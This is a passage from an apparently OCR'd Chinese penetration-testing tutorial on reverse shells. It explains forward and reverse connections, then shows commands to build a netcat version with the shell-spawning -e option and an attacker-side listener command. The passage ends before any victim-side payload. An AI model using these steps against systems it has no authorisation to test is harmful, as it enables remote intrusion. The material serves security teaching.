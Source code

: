 # 反弹Shell，看这一篇就够了

url：https://xz.aliyun.com/t/9488



## 前言

在渗透测试实战中，我们经常会遇到Linux系统环境，而让Linux主机反弹个shell是再常见不过的事情了。

反弹shell，就是攻击机监听在某个TCP/UDP端口为服务端，目标机主动发起请求到攻击机监听的端口，并将其命令行的输入输出转到攻击机。

### 正向连接

假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。

### 反向连接

那么为什么要用反弹shell呢？

反弹shell通常适用于如下几种情况：

- 目标机因防火墙受限，目标机器只能发送请求，不能接收请求。
- 目标机端口被占用。
- 目标机位于局域网，或IP会动态变化，攻击机无法直接连接。
- 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知的。
- ......

对于以上几种情况，我们是无法利用正向连接的，要用反向连接。

那么反向连接就很好理解了，就是攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，即为反向连接。

反弹shell的方式有很多，那具体要用哪种方式还需要根据目标主机的环境来确定，比如目标主机上如果安装有netcat，那我们就可以利用netcat反弹shell，如果具有python环境，那我们可以利用python反弹shell。如果具有php环境，那我们可以利用php反弹shell。

## 利用netcat反弹shell

Netcat 是一款简单的Unix工具，使用UDP和TCP协议。 它是一个可靠的容易被其他程序所启用的后台操作工具，同时它也被用作网络的测试工具或黑客工具。 使用它你可以轻易的建立任何连接。

目前，默认的各个linux发行版本已经自带了netcat工具包，但是可能由于处于安全考虑原生版本的netcat带有可以直接发布与反弹本地shell的功能参数 -e 都被阉割了，所以我们需要自己手动下载二进制安装包，安装的如下：

```
wget https://nchc.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gz
tar -xvzf netcat-0.7.1.tar.gz
./configure
make && make install
make clean
```

安装完原生版本的 netcat 工具后，便有了netcat -e参数，我们就可以将本地bash反弹到攻击机上了。

**攻击机开启本地监听：**

```
netcat -lvvp 2333
```

